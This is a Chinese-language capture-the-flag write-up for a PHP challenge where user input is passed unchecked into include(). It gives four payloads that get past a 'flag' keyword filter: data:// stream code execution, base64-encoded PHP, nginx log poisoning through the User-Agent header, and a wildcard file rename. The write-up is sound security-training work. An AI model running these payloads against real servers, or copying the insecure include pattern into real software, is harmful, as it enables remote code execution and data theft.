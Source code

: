 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:18:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
} 
```

分析源码

提示flag在flag.php

过滤了

flag

同时包含传入的参数c



## 第一种

直接利用data://text/plain

```
?c=data://text/plain,<?php system("cat fla?.php")?>
```

![image-20250402185450562](./assets/image-20250402185450562.png)

利用?匹配flag从而绕过字符串过滤



## 第二种

利用data://text/plain并base64编码php代码实现字符串绕过

```
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==
```

![image-20250402185956593](./assets/image-20250402185956593.png)

![image-20250402190010721](./assets/image-20250402190010721.png)



## 第三种

日志注入

```
?c=/var/log/nginx/access.log
```

![image-20250402185552713](./assets/image-20250402185552713.png)

可以读取日志文件，依旧可以通过抓包修改UA头实现日志注入





## 第四种

利用*匹配字符串，同时利用mv修改文件名实现读取

```
?c=data://text/plain,<?php system("mv f* 1.txt");?>
```

![image-20250402190150070](./assets/image-20250402190150070.png)

然后访问1.txt

![image-20250402190131907](./assets/image-20250402190131907.png)